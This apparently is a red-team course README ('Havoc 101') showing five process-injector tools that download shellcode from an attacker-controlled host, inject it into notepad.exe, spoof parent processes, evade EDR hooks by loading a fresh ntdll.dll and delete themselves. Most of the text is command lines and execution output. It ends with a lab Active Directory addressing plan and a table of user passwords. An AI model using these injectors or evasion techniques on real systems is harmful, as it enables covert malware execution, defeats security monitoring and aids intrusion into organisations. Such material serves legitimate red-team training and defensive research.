

# Red Team Ops: Havoc 101
Learn how to compromise an Active Directory Infrastructure by simulating adversarial Tactics, Techniques and Procedures (TTPs) using Havoc Framework. 

## Chapter 1: Intro to C2



#### [[Redirector]](https://github.com/WesleyWong420/RedTeamOps-Havoc-101/blob/main/assets/Redirector.MD) [[Stager]](https://github.com/WesleyWong420/RedTeamOps-Havoc-101/blob/main/assets/Stager.MD)

## Chapter 2: OPSEC & AV/EDR Evasion
### Runner
Runner is the 1st out of 5 Proof-of-Concept Process Injectors that takes an arbitrary shellcode from a remote URL and perform shellcode injection on a sacrificial process `notepad.exe` using Win32 API calls. It also supports Parent Process ID (PPID) Spoofing, allowing the sacrificial process to spawn under an arbitrary process using it's PID. If the target `-t, --target` is not specified, it will perform self-injection instead.

**OPSEC Tips:** Allocating RWX region is a major outlier for detection as programs will rarely have memory region of RWX. Always allocate RW then flip it to RX.
```
C:\>Runner.exe -u http://192.168.231.128:9090/demon.bin -t notepad -p 4160 -k

                 /\
                ( ;`~v/~~~ ;._
             ,/'"/^) ' < o\  '".~'\\\--,
           ,/",/W  u '`. ~  >,._..,   )'
          ,/'  w  ,U^v  ;//^)/')/^\;~)'
       ,/"'/   W` ^v  W |;         )/'
     ;''  |  v' v`" W }  \\
    "    .'\    v  `v/^W,) '\)\.)\/)
             `\   ,/,)'   ''')/^"-;'
                  \
                ".
               \    Runner
               
Process Injector 1: Runner (Win32 API)

  -u, --url      Required. Remote URL address for raw shellcode.

  -t, --target   Specify the target/victim process. Default: Self-injection

  -p, --parent   Spoof victim process under a Parent Process ID (This option is ignored for self-injection)

  -k, --kill     Enable self-destruct to auto wipe file from disk.

  -h, --help     Display help screen manual.
  
|--------------
| Payload       : http://192.168.231.128:9090/demon.bin
| Process       : C:\Windows\System32\notepad.exe
| PPID Spoofing : 4160
| Self Destruct : True
|--------------

[>] CreateProcessW()
    |-> Target Process Created!
    |-> PID: 12180

[>] Fetching Payload

[>] VirtualAllocEx()
    |-> Base Address: 0x15A89D70000

[>] WriteProcessMemory()
    |-> Shellcode Injected!

[>] VirtualProtectEx()
    |-> Flipping Memory Protection!

[>] CreateRemoteThread()
    |-> Shellcode Executed!

[>] DeleteProcThreadAttributeList()
    |-> Deleting Process Artifacts!

[>] CloseHandle()
    |-> Closing Process Handle!

[>] CloseHandle()
    |-> Closing Thread Handle!

[>] Runner.exe removed from disk!
```

### Clicker
Clicker is a Proof-of-Concept loader for code injection using NT\*API calls to defeat Kernel32 API Monitoring. All Win32 APIs are mapped to the respective NT level API as follows:
| Win32 API          | NT\*API                                                      |
|--------------------|--------------------------------------------------------------|
| VirtualAllocEx     | NtAllocateVirtualMemory |
| WriteProcessMemory | NtWriteVirtualMemory |
| VirtualProtectEx   | NtProtectVirtualMemory |
| CreateRemoteThread | NtCreateThreadEx |
```
C:\>Clicker.exe -u http://192.168.231.128:9090/demon.bin -t notepad -p 4160 -k

       .:'                                  `:.
      ::'                                    `::
     :: :.                                  .: ::
      `:. `:.             .             .:'  .:'
       `::. `::           !           ::' .::'
           `::.`::.    .' ! `.    .::'.::'
             `:.  `::::'':!:``::::'   ::'
             :'*:::.  .:' ! `:.  .:::*`:
            :: HHH::.   ` ! '   .::HHH ::
           ::: `H TH::.  `!'  .::HT H' :::
           ::..  `THHH:`:   :':HHHT'  ..::
           `::      `T: `. .' :T'      ::'
             `:. .   :         :   . .:'
               `::'               `::'
                 :'  .`.  .  .'.  `:
                 :' ::.       .:: `:
                 :' `:::     :::' `:
                  `.  ``     ''  .'
                   :`...........':
                   ` :`.     .': '
                    `:  `"""'  :'   Clicker
                    
Process Injector 2: Clicker (Nt*API)

  -u, --url      Required. Remote URL address for raw shellcode.

  -t, --target   Specify the target/victim process. Default: Self-injection

  -p, --parent   Spoof victim process under a Parent Process ID (This option is ignored for self-injection)

  -k, --kill     Enable self-destruct to auto wipe file from disk.

  -h, --help     Display help screen manual.
  
|--------------
| Payload       : http://192.168.231.128:9090/demon.bin
| Process       : C:\Windows\System32\notepad.exe
| PPID Spoofing : 4160
| Self Destruct : True
|--------------

[>] CreateProcessW()
    |-> Target Process Created!
    |-> PID: 13092

[>] Fetching Payload
    |-> Payload retrieved successfully!

[>] NtAllocateVirtualMemory()
    |-> Base Address: 0x23229800000

[>] NtWriteVirtualMemory()
    |-> Shellcode Injected!

[>] NtProtectVirtualMemory()
    |-> Flipping Memory Protection!

[>] NtCreateThreadEx()
    |-> Shellcode Executed!

[>] DeleteProcThreadAttributeList()
    |-> Deleting Process Artifacts!

[>] CloseHandle()
    |-> Closing Process Handle!

[>] CloseHandle()
    |-> Closing Thread Handle!

[>] Clicker.exe removed from disk!
```

### Bloater
Bloater is a wrapper used to side-load `Clicker` for demonstrating Process Mitigation Policy. This technique prevents security vendors from reflectively loading EDR DLLs that are not digitally signed by Microsoft. As a result, `kernel32.dll` and `ntdll.dll` of newly spawned processes will not be hooked by EDR vendors unless they have Intermediate Certificates handed out by Microsoft.
```
C:\>Bloater.exe -f ./Clicker.exe -p 4160 -u http://192.168.231.128:9090/demon.bin -t notepad -s 4160
                                                                    _
                                                                  _( (~\
           _ _                        /                          ( \> > \
       -/~/ / ~\                     :;                \       _  > /(~\/
      || | | /\ ;\                   |l      _____     |;     ( \/    > >
      _\\)\)\)/ ;;;                  `8o __-~     ~\   d|      \      //
     ///(())(__/~;;\                  "88p;.  -. _\_;.oP        (_._/ /
    (((__   __ \\   \                  `>,% (\  (\./)8"         ;:'  i
    )))--`.'-- (( ;,8 \               ,;%%%:  ./V^^^V'          ;.   ;.
    ((\   |   /)) .,88  `: ..,,;;;;,-::::::'_::\   ||\         ;[8:   ;
     )|  ~-~  |(|(888; ..``'::::8888oooooo.  :\`^^^/,,~--._    |88::  |
     |\ -===- /|  \8;; ``:.      oo.8888888888:`((( o.ooo8888Oo;:;:'  |
     |_~-___-~_|   `-\.   `        `o`88888888b` )) 888b88888P""'     ;
     ; ~~~~;~~         "`--_`.       b`888888888;(.,"888b888"  ..::;-'
       ;      ;              ~"-....  b`8888888:::::.`8888. .:;;;''
          ;    ;                 `:::. `:::OOO:::::::.`OO' ;;;''
     :       ;                     `.      "``::::::''    .'
        ;                           `.   \_              /
      ;       ;                       +:   ~~--  `:'  -';
                                       `:         : .::/    Bloater
          ;                            ;;+_  :::. :..;;;
                                       ;;;;;;,;;;;;;;;,;

Process Injector 3 (Wrapper): Bloater (Process Mitigation Policy)

  -f, --file       Required. Absolute path of file to be executed.

  -p, --parent     Required. Spoof --file under a Parent Process ID.

  -u, --url        Required. Remote URL address for raw shellcode.

  -t, --target     Specify the target/victim process. Default: Self-injection

  -s, --spoof      Spoof --target under a Parent Process ID.

  -h, --help       Display help screen manual.
  
|--------------
| File          : ./Clicker.exe
| PPID Spoofing : 4160
| Argument 1    : http://192.168.231.128:9090/demon.bin
| Argument 2    : notepad
| Argument 3    : 4160
|--------------

[>] CreateProcessW()
    |-> Process Mitigation Policy Enforced!
    |-> Spoofed Parent PID Successfully!
    |-> Target Process Created!
    |-> PID: 19520
```

### RatKing
RatKing is the successor of `Clicker` as it uses the same boilerplate to perform process injection. At runtime, a fresh copy of `ntdll.dll` is loaded into the process. The original `ntdll.dll` that was hooked by EDR is left untouched. All NT*API are exported and called from the clean copy of `ntdll.dll` instead. This EDR evasion method is especially effective because the integrity of EDR hooks are not tampered with.
```
C:\>RatKing.exe -u http://192.168.231.128:9090/demon.bin -t notepad -p 4160 -k

              .'''''-,              ,-`````.
              `-.._  |              |  _..-'
                 \    `,          ,'    /
                 '=   ,/          \,   =`
                 '=   (            )   =`
                .\    /            \    /.
               /  `,.'              `.,'  \
               \   `.                ,'   /
                \    \              /    /
                 \   .`.  __.---. ,`.   /
                  \.' .'``        `. `./
                   \.'  -'''-..     `./
                   /  /        '.      \
                  /  / .--  .-'''`      '.
                 '   |    ,---.    _      \
     /``-----._.-.   \   / ,-. '-'   '.   .-._.-----``\
     \__ .     | :    `.' ((O))   ,-.  \  : |     . __/
      `.  '-...\_`     |   '-'   ((O)) |  '_/...-`  .'
 .----..)    `    \     \      /  '-'  / /    '    (..----.
(o      `.  /      \     \    /\     .' /      \  .'      o)
 ```---..   `.     /`.    '--'  '---' .'\     .'   ..---```
         `-.  `.  /`.  `.           .' .'\  .'  .-'
            `..` /   `.'  ` - - - ' `.'   \ '..'
                /    /                \    \
               /   ,'                  `.   \
               \  ,'`.                .'`.  /
                `/    \              /    \'
                 ,=   (              )   =,
                 ,=   '\            /`   =,
   RatKing       /    .'            `.    \
              .-'''  |                |  ```-.
              `......'                `......'

Process Injector 4: RatKing (Manual Mapping ntdll.dll)

  -u, --url      Required. Remote URL address for raw shellcode.

  -t, --target   Specify the target/victim process. Default: Self-injection

  -p, --parent   Spoof victim process under a Parent Process ID (This option is ignored for self-injection)

  -k, --kill     Enable self-destruct to auto wipe file from disk.

  -h, --help     Display help screen manual.

|--------------
| Payload       : http://192.168.231.128:9090/demon.bin
| Process       : C:\Windows\System32\notepad.exe
| PPID Spoofing : 4160
| Self Destruct : True
|--------------

[>] Resolving Addresses of ntdll.dll
    |-> Original ntdll.dll: 0x7ff856c10000
    |-> New copy of ntdll.dll: 0x1a068730000
    
[>] CreateProcessW()
    |-> Target Process Created!
    |-> PID: 9168

[>] Fetching Payload
    |-> Payload retrieved successfully!

[>] NtAllocateVirtualMemory()
    |-> Base Address: 0x28D20A30000

[>] NtWriteVirtualMemory()
    |-> Shellcode Injected!

[>] NtProtectVirtualMemory()
    |-> Flipping Memory Protection!

[>] NtCreateThreadEx()
    |-> Shellcode Executed!

[>] DeleteProcThreadAttributeList()
    |-> Deleting Process Artifacts!

[>] CloseHandle()
    |-> Closing Process Handle!

[>] CloseHandle()
    |-> Closing Thread Handle!

[>] RatKing.exe removed from disk!
```

### RustKing
RustKing is an adapted version of `RatKing` on steroids, written in Rust. The intention is to make Reverse Engineering significantly harder.

**NOTE:** RustKing does not support HTTPS payload download and PPID spoofing. Additionally, target process has to be opened manually prior to running RustKing. `--target` must be exact match.
```
C:\>RustKing.exe --url http://192.168.231.128:9090/demon.bin --target notepad.exe

                    ..:::::::::..
               ..:::aad8888888baa:::..
            .::::d:?88888888888?::8b::::.
          .:::d8888:?88888888??a888888b:::.
        .:::d8888888a8888888aa8888888888b:::.
       ::::dP::::::::88888888888::::::::Yb::::
      ::::dP:::::::::Y888888888P:::::::::Yb::::
     ::::d8:::::::::::Y8888888P:::::::::::8b::::
    .::::88::::::::::::Y88888P::::::::::::88::::.
    :::::Y8baaaaaaaaaa88P:T:Y88aaaaaaaaaad8P:::::
    :::::::Y88888888888P::|::Y88888888888P:::::::
    ::::::::::::::::888:::|:::888::::::::::::::::
    `:::::::::::::::8888888888888b::::::::::::::'
     :::::::::::::::88888888888888::::::::::::::
      :::::::::::::d88888888888888:::::::::::::
       ::::::::::::88::88::88:::88::::::::::::
        `::::::::::88::88::88:::88::::::::::'
          `::::::::88::88::P::::88::::::::'
            `::::::88::88:::::::88::::::'
               ``:::::::::::::::::::''
    OffensiveRust   ``:::::::::''    RustKing

[>] Scanning for notepad.exe...
    |-> Found process!
    |-> PID: 11588

[>] Fetching Payload!
    |-> URL: http://192.168.231.128:9090/demon.bin

[>] Resolving Addresses of ntdll.dll
    |-> Original ntdll.dll: 0x7FF856C10000
    |-> New copy of ntdll.dll: 0x1869DB30000

[>] NtAllocateVirtualMemory()
    |-> Base Address: 0x1ED3C1F0000

[>] NtWriteVirtualMemory()
    |-> Shellcode Injected!

[>] NtProtectVirtualMemory()
    |-> Flipping Memory Protection!

[>] NtCreateThreadEx()
    |-> Shellcode Executed!
```
## Chapter 3: Active Directory

### Active Directory Network Diagram


### Active Directory Network Addresses
1. DC01
    - Secure Network
        - Static IPv4: `10.10.101.131`
        - Subnet Mask: `255.255.255.0`
        - Default Gateway: `10.10.101.1`
        - Preferred DNS: `127.0.0.1`
        - Alternate DNS: `8.8.8.8`

2. WORKSTATION-01
    - External Network
        - Dynamic IPv4: `192.168.25.149` (DHCP will assign)
        - Subnet Mask: `auto-assigned`
        - Default Gateway: `auto-assigned`
        - Preferred DNS: `auto-assigned`
        - Alternate DNS: `auto-assigned`
        
    - Internal Network
        - Static IPv4: `10.10.100.128`
        - Subnet Mask: `255.255.255.0`
        - Default Gateway: 
        - Preferred DNS: `10.10.100.129`
        - Alternate DNS: `8.8.8.8`
        
    - Secure Network
        - Static IPv4: `10.10.101.129`
        - Subnet Mask: `255.255.255.0`
        - Default Gateway: `10.10.101.1`
        - Preferred DNS: `10.10.101.131`
        - Alternate DNS: `8.8.8.8`

3. WORKSTATION-02
    - Internal Network
        - Static IPv4: `10.10.100.129`
        - Subnet Mask: `255.255.255.0`
        - Default Gateway: 
        - Preferred DNS: `10.10.100.128`
        - Alternate DNS: `8.8.8.8`
        
    - Secure Network
        - Static IPv4: `10.10.101.132`
        - Subnet Mask: `255.255.255.0`
        - Default Gateway: `10.10.101.1`
        - Preferred DNS: `10.10.101.131`
        - Alternate DNS: `8.8.8.8`
        
### Active Directory Users and Computers

| **First Name** | **Last Name** | **Username** | **Password**         | **Group** | **Involvement** |
|----------------|---------------|--------------|----------------------|----------------------------------|---|
| Aaron          | Adams         | a.adams      | `C0nc0Rd1776!`       | Senior Management, Domain Admins | * |
| Jonathan       | Taylor        | j.taylor     | `Lexington1776!`     | IT Admins, Administrators |   |
| Jillian        | Anthony       | j.anthony    | `H1dD3nV4ll3y!`      | Engineering |   |
| Tabitha        | Carter        | t.carter     | `AhArGuY5Nm7U3!@`    | Engineering |   |
| Megan          | Phillips      | m.phillips   | `L4k3LiV3L0ve!`      | Engineering, Group Policy Creator Owners |   |
| Richard        | Smith         | r.smith      | `Baseball123!`       | Engineering |   |
| Samantha       | Chisholm      | s.chisholm   | `FallOutBoy1!`       | Sales | * |
| Margaret       | Seitz         | m.seitz      | `Phi11i35@44`        | Engineering | * |
| Aaron          | Tarolli       | a.tarolli    | `Password123!`       | Sales |   |
| Zane           | Dickens       | z.dickens    | `M0t0rH3Ad65^$#`     | Sales | * |

